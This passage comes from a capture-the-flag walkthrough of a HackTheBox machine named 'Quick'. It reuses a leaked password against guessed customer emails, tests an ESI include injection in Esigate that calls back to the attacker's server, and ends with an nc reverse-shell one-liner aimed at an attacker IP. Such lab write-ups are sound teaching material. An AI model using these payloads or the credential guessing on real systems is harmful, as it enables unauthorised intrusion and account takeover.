 We'll need to do a little workaround to grab these files, since we're running curl in a docker container:

```
sudo docker run --rm --entrypoint /bin/sh ymuski/curl-http3  -c "curl https://10.10.10.186:443/docs/Quickstart.pdf --http3 --output /tmp/Quickstart.pdf && cat /tmp/QuickStart.pdf" > Quickstart.pdf

sudo docker run --rm --entrypoint /bin/sh ymuski/curl-http3  -c "curl https://10.10.10.186:443/docs/Connectivity.pdf --http3 --output /tmp/Connectivity.pdf && cat /tmp/Connectivity.pdf" > Connectivity.pdf
```

From Connectivity.pdf, we get a password:

**Quick4cc3$$**

We can try the emails/password we grabbed on quick.htb/login.php, but none of them work. Taking a look at the clients on the homepage, we can make a list of possible emails that could be related to the companies that reviewed "Quick".

The following credentials work:

**elisa@wink.co.uk:Quick4cc3$$**

Now that we're in, we see that we can Raise a Ticket, and search for raised tickets. Normal XSS doesn't appear to do anything, but if we look at the headers in the response, we see the following:

```
X-Powered-By: Esigate
```

Remember that we noticed the server was running Esigate before? Esigate has an XSLT injection vulnerability that we can exploit here. For this purpose, I'll be using the following cheatsheet:

https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/ESI_Engine_XSS.md

Click "Raise a Ticket" and enter the following payload in the body, replacing the x's with our IP:

```
<esi:include src="http://xx.xx.xx.xx/image.png" />
```

Now, we take note of the ticket number it returns to us after hitting submit, we open a webserver on port 80 of our local machine, and we search for the ticket. We can see the following on our local webserver:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.186 - - [28/Apr/2020 11:03:27] code 404, message File not found
10.10.10.186 - - [28/Apr/2020 11:03:27] "GET /image.png HTTP/1.1" 404 -
```

Looking for possible RCE for Esigate leads us to the following link:

https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/

We can use the payloads in this link to achieve RCE! We'll need to make ourselves a reverse shell first:

shell.sh:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f
```
